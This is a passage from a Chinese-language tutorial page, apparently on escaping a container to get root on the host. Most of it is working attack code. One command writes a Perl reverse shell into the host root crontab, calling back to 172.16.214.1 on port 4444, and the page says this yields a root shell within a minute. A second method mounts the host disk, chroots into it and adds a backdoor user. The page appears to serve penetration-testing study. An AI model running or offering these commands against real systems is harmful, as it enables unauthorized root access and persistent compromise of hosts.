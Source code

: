 也可以在定时任务中写入反弹 shell

这里的定时任务路径是 Ubuntu 系统路径，不同的系统定时任务路径不一样

```json
echo $'*/1 * * * * perl -e \'use Socket;$i="172.16.214.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'' >> /test/var/spool/cron/crontabs/root
```

一分钟后，就能收到反弹回来的会话了，而且会话权限是宿主机 root 用户权限。

<img width="1200" src="/img/1650014458.png">

### 方法二

```bash
mount /dev/sda1 /mnt
chroot /mnt adduser john
```

通过新添加的用户登录

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年4月15日"
    }
  }
</script>